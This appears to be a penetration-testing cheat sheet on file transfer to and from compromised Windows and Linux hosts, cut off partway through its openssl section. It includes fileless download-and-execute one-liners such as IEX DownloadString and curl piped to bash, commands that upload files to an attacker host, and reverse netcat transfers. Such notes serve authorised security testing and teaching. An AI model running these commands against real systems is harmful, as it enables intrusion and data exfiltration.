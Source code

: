 # 📁 File Transfers

In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.

> *"No summoning may begin until the runes are in place."*

---

<details>
<summary><h1>🪟 Windows</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>PowerShell Downloads</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h4>PowerShell DownloadFile Method</h4></summary>

**Destination Machine: Sync (Wait for the download to finish)**  

No password
```powershell
(New-Object Net.WebClient).DownloadFile('http://<IP>:<PORT>/<FILE>','C:\Users\Public\<FILE>')
```
Using Credentials
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<PASSWORD>')}).DownloadFile('http://<IP>:<PORT>/<FILE>', 'C:\Users\Public\<FILE>')
```

**Destination Machine: Async (Keep using Powershell while downloading)**  

No password
```powershell
(New-Object Net.WebClient).DownloadFileAsync('http://<IP>:<PORT>/<FILE>','C:\Users\Public\<FILE>')
```
Using Credentials
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<PASSWORD>')}).DownloadFileAsync('http://<IP>:<PORT>/<FILE>', 'C:\Users\Public\<FILE>')
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>PowerShell DownloadString - Fileless Method</h4></summary>

**Destination Machine: Default**  
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>')
```

**Destination Machine: Pipeline input**  
```powershell
(New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>') | IEX
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>PowerShell Invoke-WebRequest</h4></summary>

**Destination Machine: Default**  
```powershell
Invoke-WebRequest http://<IP>:<PORT>/<FILE> -OutFile <OUTPUT FILE>
```

**Destination Machine: Authentication**  
```powershell
Invoke-WebRequest -Uri "http://<IP>:<PORT>/<FILE>" -Headers @{"Authorization"="Basic "+[Convert]::ToBase64String([Text.Encoding]::ASCII.GetBytes("<USER>:<PASSWORD>"))} -OutFile "C:\Users\Public\<FILE>"
```

**Destination Machine: ByPass Internet Explorer Error**  
```powershell
Invoke-WebRequest http://<IP>:<PORT>/<FILE> -UseBasicParsing | IEX
```

**Destination Machine: Skip SSL validation (PowerShell 7+)**  
```powershell
Invoke-WebRequest -Uri "https://<IP>:<PORT>/<FILE>" -OutFile "<FILE>" -SkipCertificateCheck
```

**Destination Machine: Skip SSL validation (PowerShell 5.1 or previous)**  
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; (New-Object Net.WebClient).DownloadFile("https://<IP>:<PORT>/<FILE>", "<FILE>")
```

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SMB Downloads</h3></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>Default</h4></summary>  

**Source Machine: Create a temporary SMB Share on Linux and place your target file in it** 

```bash
mkdir /tmp/smbshare
cd /tmp/smbshare
mv <FILE> .
chmod 644 <FILE>
sudo impacket-smbserver share -smb2support .
```

**Destination Machine: Download the files**

**Option 1:** Download a single file
```cmd
copy \\<IP>\share\<FILE>
``` 

**Option 2:** Mount the share
```cmd
net use n: \\<IP>\share /persistent:no
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>Using credentials</h4></summary>  

**Source Machine: Create the SMB Server on Linux**
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user <USER> -password <PASSWORD>
```

**Destination Machine: Download the files**  

**Mount the share**
```cmd
net use n: \\<IP>\share /user:<USER> <PASSWORD>
```

**Download the file**
```cmd
copy n:\<FILE>
```

**Unmount the share**
```cmd
net use n: /delete /y
```
</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Downloads</h3></summary>  

**Source Machine: Setting up a Python3 FTP Server on Linux**
```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21 --user <USER> --password '<USER>'
```

**Destination Machine: Download file using Powershell**
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<USER>')}).DownloadFile('ftp://<IP>/<FILE>', 'C:\Users\Public\<FILE>')
```

**Destination Machine: Download file using CMD**  
```cmd
(
  echo open <IP>
  echo user ftpuser ftppass
  echo binary
  echo get <FILE>
  echo bye
) > ftpcommand.txt
ftp -i -v -n -s:ftpcommand.txt
```
---

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📤 Uploads</h2></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h3>PowerShell Uploads</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Base64 Encode & Decode</h4></summary>  

**Source Machine: Encode File Using PowerShell** 
```powershell
# 1. Convert File to Base64
[Convert]::ToBase64String((Get-Content -path "<FILE PATH>" -Encoding byte))

# 2. Computes the MD5 checksum of a file to verify its integrity.
Get-FileHash "<FILE PATH>" -Algorithm MD5 | select Hash
```
We copy this content and paste it into our attack host, use the base64 command to decode it, and use the md5sum application to confirm the transfer happened correctly.  

**Destination Machine: Decode Base64 String on Linux**
```bash
# 1. Save the base64 string to a file
echo "<BASE64STRING>" > encoded.b64

# 2. Decode the base64 to recreate the original file
base64 -d encoded.b64 > decoded.txt

# 3. Verify the MD5 hash matches the Windows version
md5sum decoded.txt
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Web Uploads</h4></summary>  

**Destination Machine (Linux): Installing a Configured WebServer with Upload on Linux**

```bash
pip3 install uploadserver
python3 -m uploadserver --allow-replace 8000
```

**Source Machine (Windows): Upload the file**

```powershell
curl.exe -X POST http://<IP>:<PORT>/upload -F "files=@C:\Users\Cartman\Desktop\FileToUpload.txt"
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Base64 Web Upload</h4></summary>  

Script needed: [linux_file_receiver.py](../scripts/file_transfers/linux_file_receiver.py)

**Destination Machine (Linux): Destination Machine (Linux): Start Web Server**

```bash
# Start server (default port 4444)
python3 file_receiver.py

# Start server on custom port
python3 file_receiver.py --port <PORT>
```

**Source Machine (Windows): Convert file to Base64 string**

```powershell
$b64 = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Users\Cartman\Desktop\ThisisATextFile.txt"))
```

**Source Machine (Windows): Send to Linux server**

```powershell
Invoke-WebRequest -Uri "http://<IP>:<PORT>/" -Method POST -Body $b64 -ContentType "text/plain"
```

**Destination Machine (Linux): Rename and restore original format**

```bash
mv <RECEIVED FILE> <FILE>
```

**Destination Machine (Linux): Verify file integrity**

```bash
file ThisisATextFile.txt
```

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h3>SMB Uploads</h3></summary>  

**Source Machine: Installing WebDav Python modules on Linux**
```bash
sudo pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=<PORT> --root=/tmp --auth=anonymous
```

**Destination Machine: Uploading Files using SMB on Windows**
```cmd
# DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server.
dir \\192.168.49.128\DavWWWRoot
copy <FILE PATH> \\<IP>\DavWWWRoot\

# You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \<IP>\sharefolder
copy <FILE PATH> \\<IP>\sharefolder\
```
If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Uploads</h3></summary>

**Source Machine: Start our FTP Server on Linux**
```bash
sudo python3 -m pyftpdlib --port 21 --write
```

**Destination Machine: Upload the file on Windows**

Option 1: Upload file using Powershell
```cmd
(New-Object Net.WebClient).UploadFile('ftp://<IP>/ftp-hosts', '<FILE PATH>')
```

Option 2: Create a Command File for the FTP Client to Upload a File
Create a Command File for the FTP Client and Download the Target File
```cmd
echo open <IP> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT <FILE PATH> >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

**Destination Machine: Once in FTP...**
```cmd
USER anonymous
PUT <FILE PATH>
bye
```
</details>
</details>
</details>

---

<details>
<summary><h1>🐧 Linux</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Base64 Encoding / Decoding</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 
  
**Check File MD5 hash**  
```bash
md5sum <FILE>
```

**Encode file to Base64**  
```bash
# We copy this content and paste it onto our Linux target machine
cat <FILE> |base64 -w 0;echo
```

**Decode the File**  
```bash
echo -n '<BASE64STRING>' | base64 -d > <OUTPUT FILE>
```

**Confirm the MD5 Hashes Match**  
```bash
md5sum <FILE>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Wget Downloads</h3></summary>  

**Basic Download**  
```bash
wget http://<IP>:<PORT>/<FILE>
```

**Download with Custom Filename**  
```bash
wget -O <OUTPUT FILE> http://<IP>:<PORT>/<FILE>
```

**Download with Authentication**  
```bash
wget --user=<USER> --password=<PASSWORD> http://<IP>:<PORT>/<FILE>
```

**Fileless Download**  
```bash
# Executes it directly
wget -qO- http://<IP>:<PORT>/<FILE> | python3
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Curl Downloads</h3></summary>

**Basic Download**  
```bash
curl -o <OUTPU_FILE> http://<IP>:<PORT>/<FILE>
```

**Ignore SSL certificate**  
```bash
curl -k -o <OUTPU_FILE> https://<IP>:<PORT>/<FILE>
```

**Download with Custom Filename**  
```bash
curl -o <OUTPUT FILE> http://<IP>:<PORT>/<FILE>
```

**Download with Authentication**  
```bash
curl -u <USER>:<PASSWORD> -o <OUTPUT FILE> http://<IP>:<PORT>/<FILE>
```

**Fileless Download**  
```bash
# Executes it directly
curl http://<IP>:<PORT>/<FILE> | bash
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Download with Bash</h3></summary>

**Connect to the Target Webserver**  
```bash
exec 3<>/dev/tcp/<IP>/<PORT>
```

**HTTP GET Request**  
```bash
echo -e "GET /<FILE> HTTP/1.1\n\n">&3
```

**Print the Response**  
```bash
cat <&3
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SSH Downloads</h3></summary>

**Source Machine: Starting the SSH Server**  
```bash
sudo systemctl enable ssh
sudo systemctl start ssh
```

**Source Machine: Checking for SSH Listening Port**  
```bash
#0.0.0.0:22
netstat -lnpt
```

**Destination Machine: Downloading Files Using SCP**  
```bash
scp user@remote_ip:/remote/path/<FILE> /local/path/
```

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📤 Uploads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Web upload</h3></summary>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>Python UploadServer (Basic)</h4></summary>

**Source Machine: Start Web Server**  
```bash
# Run in the target directory
sudo python3 -m pip install --user uploadserver
sudo python3 -m uploadserver <PORT>

#Serving HTTP on 0.0.0.0 port <PORT> (http://0.0.0.0:<PORT>/) ...
```  
  
> **_Destination Machine:_**  Refer to the "Downloads" section for available transfer methods.

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>Authenticated Web Server</h4></summary>

**Source Machine: Create server.py**  
```python
# server.py
from http.server import HTTPServer, SimpleHTTPRequestHandler
import base64

class AuthHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        auth = self.headers.get('Authorization')
        if not auth or not auth.startswith('Basic '):
            self.send_response(401)
            self.send_header('WWW-Authenticate', 'Basic realm="Secure Area"')
            self.end_headers()
            return
        
        username, password = base64.b64decode(auth[6:]).decode().split(':', 1)
        if username == '<PORT>' and password == '<PORT>':
            super().do_GET()
        else:
            self.send_response(403)
            self.end_headers()
            self.wfile.write(b'Access denied')

HTTPServer(('0.0.0.0', <PORT>), AuthHandler).serve_forever()
```

**Source Machine: Start Web Server**  
```bash
sudo python3 server.py
```

> **_Destination Machine:_**  Refer to the "Downloads" section for available transfer methods.

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SCP Uploads</h3></summary>  
  
**Upload to Remote Server**  
```bash
scp <FILE> <USER>@<IP>:/remote/path/
```

**Upload with Custom Port**  
```bash
scp -P <PORT> <FILE> <USER>@<IP>:/remote/path/
```

**Upload with Key Authentication**  
```bash
scp -i <KEY FILE> <FILE> <USER>@<IP>:/remote/path/
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Uploads</h3></summary>

**Source Machine: Using FTP Command**  
```bash
ftp <IP>
# Once connected:

put <FILE>
```

**Source Machine: Using lftp**  
```bash
lftp -u <USER>,<PASSWORD> <IP>

# Once connected:
put <FILE>
```

</details>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Alternative Web File Transfer Method</h3></summary>
A compromised Linux machine may not have a web server installed. In such cases, we can use a mini web server.

**Source Machine: Creating a Web Server with Python3**  
```bash
python3 -m http.server 8000
```

**Source Machine: Creating a Web Server with Python2.7**  
```bash
python2.7 -m SimpleHTTPServer 8000
```

**Source Machine: Creating a Web Server with PHP**  
```bash
php -S 0.0.0.0:8000
```

**Source Machine: Creating a Web Server with Ruby**  
```bash
php -S 0.0.0.0:8000
```

> **_Destination Machine:_**  Refer to the "Downloads" section for available transfer methods.

</details>
</details>
</details>

---

<details>
<summary><h1>💻 Code</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Python</h3></summary>

**Python 3**
```python
python3 -c 'import urllib.request;urllib.request.urlretrieve("http://<IP>:<PORT>/<FILE>", "<OUTPUT FILE>")'
```

**Python 2**
```python
python2.7 -c 'import urllib;urllib.urlretrieve ("http://<IP>:<PORT>/<FILE>", "<OUTPUT FILE>")'
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>PHP</h3></summary>

**PHP Download with File_get_contents()**
```php
php -r '$file = file_get_contents("http://<IP>:<PORT>/<FILE>"); file_put_contents("<OUTPUT FILE>",$file);'
```  
  
**PHP Download with Fopen()**
```php
php -r 'const BUFFER = 1024; $fremote = 
fopen("http://<IP>:<PORT>/<FILE>", "rb"); $flocal = fopen("<OUTPUT FILE>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```    

**PHP Download a File and Pipe it to Bash**
```php
php -r '$lines = @file("http://<IP>:<PORT>/<FILE>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```    


</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Ruby</h3></summary>

```ruby
ruby -e 'require "net/http"; File.write("<OUTPUT FILE>", Net::HTTP.get(URI.parse("http://<IP>:<PORT>/<FILE>")))'
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Perl</h3></summary>

```perl
perl -e 'use LWP::Simple; getstore("http://<IP>:<PORT>/<FILE>", "<OUTPUT FILE>");'
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>JavaScript</h3></summary>

**Create the script wget.js**
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```  
  
**Execute the script on Windows (CMD or Powershell)**
```cmd
cscript.exe /nologo wget.js http://<IP>:<PORT>/<FILE> <OUTPUT FILE>
```    

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>VBScript</h3></summary>

**Create the script wget.vbs**
```vb
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```  
  
**Execute the script on Windows (CMD or Powershell)**
```cmd
cscript.exe /nologo wget.vbs http://<IP>:<PORT>/<FILE> <OUTPUT FILE>
```    

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>📤 Uploads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Python</h3></summary>

**Python 3**
```python
python3 -c 'import requests;requests.post("http://<IP>:<PORT>/uploads/path/",files={"files":open("<LOCAL FILE>")})'
```
</details>
</details>
</details>

---

<details>
<summary><h1>🧰 Miscellaneous</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>NC</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Netcat</h3></summary>

**Destination Machine: Listening on Port 8000**
```bash
nc -lvnp 8000 > <OUTPUT FILE>
```

**Source Machine: Sending File**
```bash
nc -q 0 <IP> 8000 < <LOCAL FILE>
```

**Reverse File Transfer (Outbound Connection from Compromised Host)**

Instead of listening on the compromised machine, you can listen on your attack host and have the compromised machine connect out. This is useful when inbound connections are blocked by a firewall.

**Destination Machine: Connects to Source Machine and receives file**
```bash
nc <IP> 443 > <OUTPUT FILE>
```

**Source Machine: Listening and sending file as input to Ncat**
```bash
sudo nc -l -p 443 -q 0 < <LOCAL FILE>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Ncat</h3></summary>

**Destination Machine: Listening on Port 8000**
```bash
ncat -l -p 8000 --recv-only > <OUTPUT FILE>
```

**Source Machine: Sending File**
```bash
ncat --send-only <IP> 8000 < <LOCAL FILE>
```

**Reverse File Transfer (Outbound Connection from Compromised Host)**

**Destination Machine: Connects to Source Machine and receives file**
```bash
ncat <IP> 443 --recv-only > <OUTPUT FILE>
```

**Source Machine: Listening and sending file as input to Ncat**
```bash
sudo ncat -l -p 443 --send-only < <LOCAL FILE>
```  

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Bash /dev/tcp</h3></summary>

If Netcat or Ncat are not available, Bash can use the pseudo-device `/dev/tcp/host/port` for file transfers.

**Destination Machine: Receive file using /dev/tcp**
```bash
cat < /dev/tcp/<IP>/443 > <OUTPUT FILE>
```

> **Note:** This method can also be used to transfer files from the compromised host to your Source Machine by reversing the direction of the connection.

</details>
</details>

&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h1>RDP</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>File Transfer via RDP Clipboard</h3></summary>

You can transfer files between your local machine and a remote Windows host using the RDP clipboard (copy-paste) feature. This is supported by most RDP clients if clipboard redirection is enabled.

**On your RDP client (Windows mstsc.exe):**
1. Open `mstsc.exe`.
2. Go to "Show Options" > "Local Resources" tab.
3. Ensure "Clipboard" is checked.
4. Connect to the remote host.
5. Copy files on your local machine and paste them into the remote desktop (or vice versa).

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>File Transfer via RDP Shared Drives</h3></summary>

You can map a local drive to the remote session, making it accessible from the remote host.

**On your RDP client (Windows mstsc.exe):**
1. Open `mstsc.exe`.
2. Go to "Show Options" > "Local Resources" tab.
3. Click "More..." under "Local devices and resources".
4. Check the drives you want to share.
5. Connect to the remote host.
6. The shared drive will appear in "This PC" or "My Computer" on the remote desktop, allowing you to copy files between systems.

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>File Transfer via xfreerdp (Linux)</h3></summary>

If you are using Linux, you can use `xfreerdp` to enable clipboard and drive redirection.

**Clipboard (copy-paste):**
```bash
xfreerdp /v:<IP> /u:<USER> /p:<PASSWORD> +clipboard
```

**Share a local folder (e.g., /tmp/share):**
```bash
xfreerdp /v:<IP> /u:<USER> /p:<PASSWORD> +clipboard /drive:share,/tmp/share
```
The shared folder will appear as a drive on the remote Windows session.

</details>
</details>
</details>

---

<details>
<summary><h1>🔒 Protected File Transfers</h1></summary>

> **Note:** Unless specifically requested by a client, we do not recommend exfiltrating data such as Personally Identifiable Information (PII), financial data (i.e., credit card numbers), trade secrets, etc., from a client environment. Instead, if attempting to test Data Loss Prevention (DLP) controls/egress filtering protections, create a file with dummy data that mimics the data that the client is trying to protect.

> **Note:** Remember to use a strong and unique password to avoid brute-force cracking attacks should an unauthorized party obtain the file.

&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>File Encryption on Windows</h2></summary>

Many different methods can be used to encrypt files and information on Windows systems. One of the simplest methods is the [`Invoke-AESEncryption.ps1`](../scripts/file_transfers/Invoke-AESEncryption.ps1) PowerShell script. This script is small and provides encryption of files and strings.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Invoke-AESEncryption.ps1</h3></summary>

**Installation & Configuration**

```powershell
$moduleCode = @'
function Invoke-AESEncryption {
    [CmdletBinding()]
    [OutputType([string])]
    Param
    (
        [Parameter(Mandatory = $true)]
        [ValidateSet('Encrypt', 'Decrypt')]
        [String]$Mode,

        [Parameter(Mandatory = $true)]
        [String]$Key,

        [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
        [String]$Text,

        [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
        [String]$Path
    )

    Begin {
        $shaManaged = New-Object System.Security.Cryptography.SHA256Managed
        $aesManaged = New-Object System.Security.Cryptography.AesManaged
        $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
        $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros
        $aesManaged.BlockSize = 128
        $aesManaged.KeySize = 256
    }

    Process {
        $aesManaged.Key = $shaManaged.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))

        switch ($Mode) {
            'Encrypt' {
                if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}
                
                if ($Path) {
                    $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
                    if (!$File.FullName) {
                        Write-Error -Message "File not found!"
                        break
                    }
                    $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
                    $outPath = $File.FullName + ".aes"
                }

                $encryptor = $aesManaged.CreateEncryptor()
                $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
                $encryptedBytes = $aesManaged.IV + $encryptedBytes
                $aesManaged.Dispose()

                if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
                
                if ($Path) {
                    [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)
                    (Get-Item $outPath).LastWriteTime = $File.LastWriteTime
                    return "File encrypted to $outPath"
                }
            }

            'Decrypt' {
                if ($Text) {$cipherBytes = [System.Convert]::FromBase64String($Text)}
                
                if ($Path) {
                    $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
                    if (!$File.FullName) {
                        Write-Error -Message "File not found!"
                        break
                    }
                    $cipherBytes = [System.IO.File]::ReadAllBytes($File.FullName)
                    $outPath = $File.FullName -replace ".aes"
                }

                $aesManaged.IV = $cipherBytes[0..15]
                $decryptor = $aesManaged.CreateDecryptor()
                $decryptedBytes = $decryptor.TransformFinalBlock($cipherBytes, 16, $cipherBytes.Length - 16)
                $aesManaged.Dispose()

                if ($Text) {return [System.Text.Encoding]::UTF8.GetString($decryptedBytes).Trim([char]0)}
                
                if ($Path) {
                    [System.IO.File]::WriteAllBytes($outPath, $decryptedBytes)
                    (Get-Item $outPath).LastWriteTime = $File.LastWriteTime
                    return "File decrypted to $outPath"
                }
            }
        }
    }

    End {
        $shaManaged.Dispose()
        $aesManaged.Dispose()
    }
}
'@

# Create the directory for the current user
$modulePath = "$env:USERPROFILE\Documents\WindowsPowerShell\Modules\AESCrypt"
if (!(Test-Path $modulePath)) {
    New-Item -ItemType Directory -Path $modulePath -Force
}

# Save the module
$moduleCode | Out-File "$modulePath\AESCrypt.psm1" -Encoding utf8

# Import the module
Import-Module AESCrypt -Force

```

> **Note:** To install globally (admin required), use the following route: **$modulePath = "C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AESCrypt"**

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>File Encryption Examples</h3></summary>

Encrypts the string "Secret Test" and outputs a Base64 encoded ciphertext.
```powershell
Invoke-AESEncryption -Mode Encrypt -Key "<PASSWORD>" -Text "<STRING>" 
```

Decrypts the Base64 encoded string and outputs plain text.
```powershell
Invoke-AESEncryption -Mode Decrypt -Key "<PASSWORD>" -Text "<BASE64STRING>" 
```

Encrypts the file and outputs an encrypted file ".aes".
```powershell
Invoke-AESEncryption -Mode Encrypt -Key "<PASSWORD>" -Path <FILE>
```

Decrypts the ".aes" file and outputs an decrypted file.
```powershell
Invoke-AESEncryption -Mode Decrypt -Key "<PASSWORD>" -Path <AES FILE>
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Uninstall module</h3></summary>

**Uninstall for current user**
```powershell
Remove-Module AESCrypt -ErrorAction SilentlyContinue
Remove-Item "$env:USERPROFILE\Documents\WindowsPowerShell\Modules\AESCrypt" -Recurse -Force
```

**System-wide uninstall (admin required)**
```powershell
Remove-Module AESCrypt -ErrorAction SilentlyContinue
Remove-Item "C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AESCrypt" -Recurse -Force
```

**Verify Uninstallation**
```powershell
Get-Module AESCrypt -All | Remove-Module -ErrorAction SilentlyContinue
if (!(Test-Path "$env:USERPROFILE\Documents\WindowsPowerShell\Modules\AESCrypt")) {
    Write-Output "Module completely removed"
}
```

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>File Encryption on Linux</h2></summary>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>openssl</h3></summary>

Encrypting file  

```bash
